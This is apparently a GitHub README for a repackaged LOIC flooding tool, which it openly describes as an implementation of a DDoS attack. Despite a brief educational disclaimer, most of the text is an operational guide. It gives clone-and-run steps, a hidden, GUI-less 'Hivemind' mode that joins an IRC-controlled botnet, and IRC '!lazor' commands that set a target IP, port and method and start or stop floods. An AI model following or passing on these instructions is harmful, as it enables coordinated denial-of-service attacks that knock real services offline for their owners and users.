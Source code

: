 # Low-Orbit-Ion-Cannon-2023
## INFO

Low Orbit Ion Cannon (**LOIC**) is an open source network stress tool, written in C#.
LOIC is based on Praetox's LOIC project at https://sourceforge.net/projects/loic/ .

## DISCLAIMER

LOIC is for educational purposes only, intended to help server owners develop a "hacker defense" attitude. This tool comes without any warranty.

**You may not use this software for illegal or unethical purposes. This includes activities which give rise to criminal or civil liability.**

**Under no event shall the licensor be responsible for any activities, or misdeeds, by the licensee.**

## HOW TO RUN ON WINDOWS

GET THE BINARIES!

Requires Microsoft .NET Framework 3.5 Service Pack 1, available at:
http://www.microsoft.com/downloads/en/details.aspx?FamilyID=ab99342f-5d1a-413d-8319-81da479ab0d7&displaylang=en

## HOW TO RUN ON LINUX / MACOSX

Run debug binaries with Mono or Wine.
Read the wiki at https://github.com/cyberanand1337x/Low-Orbit-Ion-Cannon-2023/tree/main for updated instructions.

## HIVEMIND/HIDDEN MODE

HIVEMIND mode will connect your client to an IRC server so it can be controlled remotely.
Think of this as a voluntary botnet. Please be aware that your client can potentially be
made to do naughty things.

Note: It does NOT allow remote administration of your machine; it 
just providees control of LOIC itself.

If you want to start up in Hivemind mode, run something such as this:
```
	LOIC.exe /hivemind irc.server.address
```
which will connect to irc://irc.server.adress:6667/loic

You can also specify a port and channel:
```
	LOIC.exe /hivemind irc.server.address 1234 #secret
```
which will connect to irc://irc.server.adress:1234/secret

In order to run Hivemind Hidden mode, run something such as this:
```
	LOIC.exe /hidden /hivemind irc.server.address
```
which will connect to irc://irc.server.adress:6667/loic without any visible GUI.

## CONTROLLING LOIC FROM IRC

As an OP, Admin or Owner, set the channel topic or send a message such as the following:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true
```

To start an attack, type:
```
	!lazor start
```

or append "start" to the END of the topic:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true start
```

To reset LOIC's options back to their defaults:
```
	!lazor default
```

To stop an attack:
```
	!lazor stop
```

and **be sure to remove "start" from the END of the topic**, if it exists, as well.

Take a look at the source code for more details.

# Distributed Denial of Service (DDoS) Attack

A Distributed Denial of Service (DDoS) attack is a type of denial of service attack in which the incoming traffic flooding the victim so that it cannot respond to legitimate traffic. This project is a simple implementation of a DDoS attack using
Loic Orbit Ion Cannon.


![IMAGE](./assets/anand.gif)

## Getting Started


## Requirements

- Linux

## Usage

To use the project, follow these steps:

- Open the terminal and run the following command:
- `sudo su`
- `apt install mono-complete -y`
- `git clone https://github.com/cyberanand1337x/Low-Orbit-Ion-Cannon-2023.git`
- `ls`
- `cd Low-Orbit-Ion-Cannon-2023`
- `ls`
- `chmod 777 loic.sh`
- `./loic.sh install`
- `./loic.sh update`
- `./loic.sh run`
